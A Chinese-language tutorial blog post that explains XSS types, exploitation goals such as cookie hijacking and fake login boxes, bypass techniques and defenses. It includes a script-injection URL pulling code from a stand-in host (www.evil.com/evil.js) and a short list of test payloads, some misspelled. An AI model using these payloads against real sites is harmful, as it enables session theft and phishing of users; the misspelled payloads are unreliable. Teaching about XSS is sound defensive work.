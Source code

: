 ```yaml
---
date: 2021-02-26
title: 浅谈XSS漏洞
#subtitle: 
categories: [漏洞]
tags: [web,漏洞]
---
```


### XSS漏洞

xss 跨站脚本攻击(Cross Site Scripting),为了不和层叠样式表（Cascading Style Sheets,CSS）缩写混淆，所以将跨站脚本攻击缩写为xss。

### 漏洞原理

xss就是攻击者在web页面插入恶意的Script代码，当用户浏览该页时，嵌入其中web里面的Script代码会被执行，从而达到恶意攻击用户的特殊目的。

### 分类

#### 反射型XSS（非持久型）

把用户输入的数据“反射”给浏览器（诱使用户点击恶意链接）

将包含XSS代码的恶意链接发送给目标用户，当目标用户访问该链接时，服务器接受该目标用户的请求并处理，然后把带有XSS代码的数据发送给目标用户的浏览器，浏览器解析这段带有XSS代码的恶意脚本，就会触发XSS漏洞。

#### 存储型XSS(持久型)

把输入数据“存储”在服务器。有很强的稳定性。

攻击者在发帖的过程中，将恶意脚本连同正常信息注入帖子内容，被服务器存储下来，恶意脚本也永久地被存放在服务器。其他用户浏览这个被注入了恶意脚本的帖子，恶意脚本就会在他们的浏览器中执行。

#### DOM Based XSS（特殊类型的反射XSS）

不需要经过后端，它是在浏览器解析渲染服务器源码的时候产生的，所以我们在抓包的过程中是看不到dom型xss有关的内容的（WAF无法防护）

通过修改网页节点形成XSS。基于DOM文档对象模型的一种漏洞。

DOM-based XSS漏洞是基于文档对象模型Document Objeet Model 的一种漏洞。DOM是一个与平台、编程语言无关的接口，它允许程序或脚本动态的访问或者更新文档内容、结构和样式，处理后的结果能够成为显示页面的一部分。DOM中有很多对象，其中一些事用户可以操作的.客户端的脚本程序可以通过DOM动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得DOM中的数据在本地执行，如果DOM中的数据没有经过严格的确认，就会产生DOM-based XSS漏洞。

### XSS的利用

XSS不只是弹窗，弹窗只是测试XSS的存在性。

payload:通过插入javascript代码,控制浏览器,完成各种具体功能.

#### cookie劫持

通过读取浏览器的cookie对象,攻击者可以不通过密码,直接登陆进入用户的账户.

可以先加载一个远程脚本,例如:

```javascript
http://www.a.com/test.htm/?abc="><script src=http://www.evil.com/evil.js></script>
```



#### 构造GET与POST请求

#### XSS钓鱼

为了窃取密码,利用javascript伪造一个登录框,用户输入之后,密码被发送到黑客的服务器上.

#### XSS验证码绕过

通过读取页面内容,将验证码的图片url发送到远程服务器,攻击者在远程服务器接受当前验证码,并将验证码的值返回给当前XSS payload,从而绕过验证码.

#### 识别用户的浏览器

通过XSS读取浏览器的UserAgent对象.

但UserAgent可以伪造,可以通过另一种方法,更准确的识别用户浏览器版本.

分辨浏览器不同版本之间的差异,从而识别成功.

#### 识别用户安装的软件

通过判断ActiveX控件的classid是否存在,来推测用户是否安装了该软件.

```javascript
try{
    var Obj=new ActiveXObject('XunLeiBHO.ThunderIEhelper');
}
    catch(e){
        //异常
    }
```

收集常见软件的classid,扫描用户电脑中安装的软件列表.

#### 识别浏览器安装的插件和扩展

#### 判断用户是否访问某个网站

style的visited属性,访问过的链接,颜色会变化.

#### 获取真实IP

借助第三方软件,比如客户端安装了Java(JRE)环境,那么可以通过调用JavaApplet接口获取客户端本地IP

#### 蠕虫

[XSS蠕虫](https://en.wikipedia.org/wiki/XSS_worm)

条件:用户之间发生交互行为的页面,如果存在存储型XSS,则容易发起XSS Worm攻击.

### XSS构造技巧

#### 常用测试语句

```
<script>alert(1)<script/>

<img src=x oneorrer=alert(1)>

<svg onload=alert(1)>

<s herf=javascript:alert(1)>
```

#### 绕过方式

* JS编码
* HTML编码
* URL编码
* 长度绕过
* 标签绕过(标签闭合,标签优先性)
* window.name利用
* Flash XSS
* 利用Javascript开发框架漏洞
* 利用浏览器差异
* 关键字、函数

### 防护方法

* 过滤输入的数据,非法字符
* 对数据进行编码转换
* 添加HttpOnly
* 输入合法性检查
* 白名单过滤标签
* DOM XSS防御

